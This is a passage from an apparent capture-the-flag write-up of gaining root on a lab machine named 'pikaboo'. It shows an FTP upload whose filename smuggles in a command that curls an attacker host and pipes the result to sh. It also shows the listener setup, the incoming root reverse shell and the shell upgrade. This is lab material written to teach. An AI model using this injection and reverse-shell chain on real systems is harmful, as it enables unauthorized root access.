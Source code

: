 ```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

After changing to a directory we can now upload a file with a name which will lead to curling our webserver and piping the result to sh.

```
ftp> cd versions
250 Directory successfully changed.
ftp> put x.csv "|curl 10.10.14.11|sh|x.csv"
local: x.csv remote: |curl 10.10.14.11|sh|x.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```

After about a minute we get a hit on our webserver followed by a reverse shell on our listener as the root user.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.44.70 - - [18/Jul/2021 01:55:42] "GET / HTTP/1.1" 200 -
```

We upgrade the shell again, fix the terminal size and can add the root flag to our collection.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.44.70.
Ncat: Connection from 10.129.44.70:57176.
bash: cannot set terminal process group (13500): Inappropriate ioctl for device
bash: no job control in this shell
root@pikaboo:/srv/ftp/versions# python3 -c 'import pty;pty.spawn("/bin/bash")'
<ons# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@pikaboo:/srv/ftp/versions# export TERM=xterm
export TERM=xterm
root@pikaboo:/srv/ftp/versions# ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

root@pikaboo:/srv/ftp/versions# stty rows 55 cols 236
```

```
root@pikaboo:/srv/ftp/versions# wc -c /root/root.txt
33 /root/root.txt
```

